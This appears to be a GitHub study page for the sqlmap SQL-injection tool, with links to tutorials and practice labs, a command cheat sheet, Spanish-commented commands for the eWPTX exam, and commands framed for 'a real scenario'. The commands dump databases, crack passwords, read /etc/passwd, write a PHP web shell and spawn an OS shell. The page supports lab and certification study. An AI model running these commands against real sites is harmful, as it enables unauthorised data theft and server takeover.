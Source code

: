 ### Learn about SQLmap
- [SQLmap tutorial for begineers](https://tryhackme.com/room/sqlmap)
- [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
### Labs for practice
- [HTB Goodgames](https://app.hackthebox.com/machines/446)
- [HTB Validation](https://app.hackthebox.com/machines/382)
- [THM Daily Bugle](https://tryhackme.com/room/dailybugle)

### Cheat Sheet

| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

### Usefull Commands for eWPTX!
```bash
#Seleccionar un target
sqlmap -u "http://www.target.com/path/file.htm?variable=1"

#Cargar una petición desde un archivo
sqlmap -r request

#Utilizar User-Agent random
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --random-agent

#Establecer el nivel de riesgo
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --risk [0-3]

#Establecer el nivel de intensidad del ataque
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --level [0-5]

#Controlar la petición con un proxy por ej BurpSuite
sqlmap --proxy "http://127.0.0.1:8080"

#Establecer una cookie
sqlmap --cookie "example=COOKIE"

#Atacar un parametro especifico
sqlmap -p "parametro" 

#Establecer un token CSRF
sqlmap --csrf-token "token"
sqlmap --csrf-url "url"

#Especificar el gestor de base de datos
sqlmap --dbms=gestor

#Especificar una tabla 
sqpmal -D "table"

#Dumpear toda la DB
sqlmap --dump
```

### SQLMap Payloads in order to use on a real scenario

1. Basic Enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
2. Table Enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D [DATABASE_NAME]
```
After identifying the name of the table of interest, you can retrieve its content using the --dump option and specifying the name of the table with -T users, like this:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T [TABLE_NAME] -D [DATABASE_NAME]
```
